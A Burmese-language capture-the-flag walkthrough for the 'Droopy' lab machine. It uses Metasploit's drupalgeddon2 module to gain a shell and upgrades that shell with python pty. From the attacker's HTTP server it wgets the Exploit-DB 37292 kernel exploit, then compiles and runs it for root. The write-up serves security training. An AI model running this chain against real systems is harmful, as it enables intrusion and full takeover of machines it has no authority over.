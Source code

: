 ![](https://raw.githubusercontent.com/0xsheinn/0xsheinn.github.io/master/_posts/images/droopyctf/Screenshot_2020-06-08_12-13-14.png)

ကျနော် select လုပ်ထားတဲ့ exploit ကို သုံးပါမယ်

`use 2` ဆိုပြီးလည်း ရသလို `use exploit/unix/webapp/drupal_drupalgeddon2` ဆိုပြီး ရိုက်လည်းရပါတယ်

![](https://raw.githubusercontent.com/0xsheinn/0xsheinn.github.io/master/_posts/images/droopyctf/Screenshot_2020-06-08_12-13-29.png)

![](https://raw.githubusercontent.com/0xsheinn/0xsheinn.github.io/master/_posts/images/droopyctf/Screenshot_2020-06-08_12-15-03.png)

`set rhost [target machine ip]`

`exploit`

host သတ်မှတ်ပြီး exploit လို့ရိုက်လိုက်ရင် ကျနော်တို့ shell access ရပါပြီး : p

![](https://raw.githubusercontent.com/0xsheinn/0xsheinn.github.io/master/_posts/images/droopyctf/Screenshot_2020-06-08_12-16-04.png)

`shell` ဆိုပြီး ဝင်လိုက်ပါ

`python -c ‘import pty;pty.spawn(“/bin/bash”)’` ဆိုပြီး run လိုက်ရင် ကျနော်တို့ bash shell လေးရပါမယ်

ပြီးရင် `uname -a` နဲ့ kernel version ကို စစ်ကြည့်လိုက်ပါမယ်

kernel version ရရင် ကျနော်တို့ google မှာ exploit အရင်ရှာကြည့်လိုက်ပါမယ်

![](https://raw.githubusercontent.com/0xsheinn/0xsheinn.github.io/master/_posts/images/droopyctf/Screenshot_2020-06-08_12-17-16.png)

အပေါ်ဆုံးတခုကို သုံးပါမယ် [exploit link](https://www.exploit-db.com/exploits/37292)

ကျနော်တို့ download ချပြီး expoit ရှိတဲ့ folder မှာ exploit ကို target machine ကနေ download လုပ်ဖို့ 

python server တခုကို ထောင်လိုက်ပါမယ်

![](https://raw.githubusercontent.com/0xsheinn/0xsheinn.github.io/master/_posts/images/droopyctf/Screenshot_2020-06-08_12-23-22.png)

`python3 -m http.server 80`

ပြီးတော့ target machine ကနေ wget command နဲ့ exploit ကို download လုပ်လိုက်ပါမယ်

download မလုပ်ခင် အရင်ဆုံး tmp directory ထဲဝင်ထားပေးရပါမယ် (read,write,excutable permission တွေက

အများအားဖြင့် tmp directory တွေမှာ ရလို့ပါ )

`wget http://192.168.x.x/37292.c`

ip နေရာမှာ ကိုယ့်စက်ရဲ့ ip address ကို ထည့်ပေးပါ

![](https://raw.githubusercontent.com/0xsheinn/0xsheinn.github.io/master/_posts/images/droopyctf/Screenshot_2020-06-08_12-25-17.png)

download ချပြီး ရင် ကျနော်တို့ exploit ကို compile လုပ်ပါမယ်

`chmod +x 37292.c`

`gcc 37292.c -o exploit`

`chmod +x exploit`

`./exploit`

ပြီးရင် permission 777 ပေးပြီး ပုံထဲကအတိုင်း exploit ကို run လိုက်ရင်

ကျနော်တို့ root access ရသွားပါပြီး : p

![](https://raw.githubusercontent.com/0xsheinn/0xsheinn.github.io/master/_posts/images/droopyctf/Screenshot_2020-06-08_12-26-35.png)

[Thanks for reading :)]()





